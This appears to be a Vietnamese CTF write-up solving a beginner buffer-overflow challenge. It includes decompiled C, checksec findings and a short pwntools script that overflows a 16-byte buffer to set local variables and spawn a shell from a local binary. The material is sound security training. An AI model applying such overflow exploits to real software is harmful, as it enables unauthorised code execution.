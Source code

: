 **1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra file

![file.png](photo/file.png)

Là file 64bit -> Mở file bằng IDA64 ta có source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 && v6 && v5 )
    system("/bin/sh");
  return 0;
}
```

Ta thấy biến buf được khai báo với 16 byte nhưng cho phép nhập 0x30 = 48byte -> Nghĩ ngay đến lỗi bof

Dùng lệnh 'checksec' kiểm tra ta thấy:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác bằng bof

**2. Ý tưởng**

Đọc source ta thấy nếu thay đổi giá trị v7, v6, v5 thì sẽ có được shell

**3. Viết script**

Để nhập từ buf đến v7 cần: 0x30 - 0x4 = 44

Ta có script như sau:

```
from pwn import *

r = process("./bof1")

payload = b'a'*44
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)